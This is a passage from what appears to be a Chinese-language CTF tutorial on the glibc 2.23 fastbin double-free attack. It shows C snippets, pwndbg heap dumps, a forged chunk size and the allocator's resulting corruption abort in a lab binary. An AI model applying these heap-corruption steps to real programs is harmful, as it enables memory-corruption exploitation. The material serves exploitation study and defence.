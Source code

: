 ```
0x405050:       0x0000000000000000      0x0000000000000000
0x405060:       0x0000000000000000      0x0000000000020fa1    ----> top chunk
```

执行三次 malloc, 从 fastbin 上申请 chunk，现在 指针 `a` 和 `c` 指向的已经是同一个堆块了
```
fprintf(stderr, "Now the free list has [ %p, %p, %p ]. If we malloc 3 times, we'll get %p twice!\n", a, b, a, a);
a = malloc(8);
b = malloc(8);
c = malloc(8);
fprintf(stderr, "1st malloc(8): %p\n", a);
fprintf(stderr, "2nd malloc(8): %p\n", b);
fprintf(stderr, "3rd malloc(8): %p\n", c);

Now the free list has [ 0x405010, 0x405030, 0x405010 ]. If we malloc 3 times, we'll get 0x405010 twice!
1st malloc(8): 0x405010
2nd malloc(8): 0x405030
3rd malloc(8): 0x405010
```

需要注意的是，我们通过 malloc 函数申请 fast bin chunk 时，`_int_malloc` 会对欲分配位置的 size 域进行验证，如果其 size 与当前 fastbin 链表应有 size 不符就会抛出异常。

```
*(a-2) = 0x41;
c = malloc(8);

pwndbg> x/20gx 0x405000
0x405000:       0x0000000000000000      0x0000000000000041    ----> change size to 0x41
0x405010:       0x0000000000405020      0x0000000000000000
0x405020:       0x0000000000000000      0x0000000000000021
0x405030:       0x0000000000405000      0x0000000000000000
0x405040:       0x0000000000000000      0x0000000000000021
0x405050:       0x0000000000000000      0x0000000000000000
0x405060:       0x0000000000000000      0x0000000000020fa1
pwndbg> fastbins
fastbins
0x20: 0x405020 —▸ 0x405000 ◂— 0x405020 /* ' P@' */
0x30: 0x0
0x40: 0x0

*** Error in `/home/hyh/Desktop/buuoj/fastbin/fir_err': malloc(): memory corruption (fast): 0x0000000000405010 ***
======= Backtrace: =========
/glibc/buuoj-libc/2.23-amd64/libc.so.6(+0x777e5)[0x7ffff7a847e5]
/glibc/buuoj-libc/2.23-amd64/libc.so.6(+0x82651)[0x7ffff7a8f651]
/glibc/buuoj-libc/2.23-amd64/libc.so.6(__libc_malloc+0x54)[0x7ffff7a91184]
/home/hyh/Desktop/buuoj/fastbin/fir_err[0x401393]
/glibc/buuoj-libc/2.23-amd64/libc.so.6(__libc_start_main+0xf0)[0x7ffff7a2d830]
/home/hyh/Desktop/buuoj/fastbin/fir_err[0x4010fe]
```


  [1]: https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/fastbin-attack/
  [2]: https://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html